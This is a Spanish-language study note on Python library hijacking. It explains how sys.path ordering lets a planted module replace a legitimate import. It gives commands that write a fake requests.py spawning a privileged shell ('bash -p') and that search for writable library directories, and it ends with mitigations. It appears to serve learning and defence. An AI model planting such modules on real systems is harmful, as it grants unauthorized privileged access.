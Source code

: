 -- -

El **Python Library Hijacking** es una técnica de ataque que aprovecha la forma en la que Python busca y carga bibliotecas al ejecutar un script. Si un atacante puede colocar una biblioteca falsa en una ubicación accesible antes que la biblioteca original, el script cargará la biblioteca maliciosa en lugar de la legítima.

---

### 🔥 **¿Cómo Funciona el Ataque?**

Cuando un script de Python realiza una instrucción como:
```python
import requests
```
Python buscará el módulo **`requests`** siguiendo el orden de rutas definidas en la variable `sys.path`. El orden de búsqueda generalmente es el siguiente:

1. El **directorio actual de trabajo** desde donde se ejecuta el script.
2. Directorios estándar del sistema.
3. Directorios de paquetes del usuario.

#### 💡 **Ejemplo de Rutas (`sys.path`):**
```python
['', '/usr/lib/python311.zip', '/usr/lib/python3.11', '/usr/lib/python3.11/lib-dynload', '/home/elgordoponcio/.local/lib/python3.11/site-packages', '/usr/local/lib/python3.11/dist-packages', '/usr/lib/python3/dist-packages']
```

---

## 💥 **Explotación: Secuestro de Bibliotecas**

### 🧠 **Paso 1: Verificar el Directorio de Trabajo**
Si tenemos acceso al directorio donde reside el script Python, lo comprobamos con:
```bash
pwd
```

---

### ✏️ **Paso 2: Crear la Biblioteca Maliciosa**
Creamos un archivo con el mismo nombre que la biblioteca legítima:
```bash
echo 'import os; os.system("bash -p")' > requests.py
chmod +x requests.py
```
- El archivo malicioso ejecutará una shell con privilegios si el script es ejecutado con permisos elevados.

---

### 📝 **Paso 3: Verificar Permisos en Rutas Alternativas**
Si no podemos escribir en el directorio actual, podemos buscar en rutas accesibles dentro de la lista de `sys.path`:
```bash
find /usr/lib/ -type d -writable 2>/dev/null
find /usr/local/lib/ -type d -writable 2>/dev/null
```
- Si encontramos un directorio escribible, podemos copiar el archivo malicioso allí.  

---

## 🚩 **Ejecución del Ataque**
Una vez creado el archivo malicioso en el directorio adecuado, simplemente ejecutamos el script vulnerable que importe la biblioteca.  
El resultado será una shell privilegiada si el script fue ejecutado con permisos elevados.

---

## 🛡️ **Mitigación de Python Library Hijacking**
1. **Usar Rutas Absolutas:** Siempre que sea posible, utilizar rutas absolutas en el código.
2. **Entornos Virtuales:** Los entornos aislados ayudan a reducir el riesgo de carga de bibliotecas maliciosas.
3. **Permisos de Escritura Restringidos:** Asegúrate de que solo los usuarios privilegiados puedan modificar bibliotecas en rutas críticas.
4. **Verificar `sys.path`:** Revisar y controlar qué rutas están incluidas en la variable de entorno.

---

💡 **Tip:** Guarda esta guía en Obsidian para tener siempre a mano los conceptos y técnicas de Python Library Hijacking. 📝
